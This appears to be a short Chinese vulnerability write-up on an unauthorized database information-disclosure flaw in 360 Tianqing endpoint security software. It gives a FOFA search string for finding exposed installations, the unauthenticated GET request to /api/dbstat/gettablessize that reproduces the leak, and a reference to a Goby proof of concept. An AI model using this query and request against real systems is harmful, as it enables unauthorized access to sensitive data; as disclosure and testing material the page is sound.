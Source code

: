 # 天擎 数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
>
> title="360新天擎"

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```

![](image/tq-2.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

![](image/tq-3.png)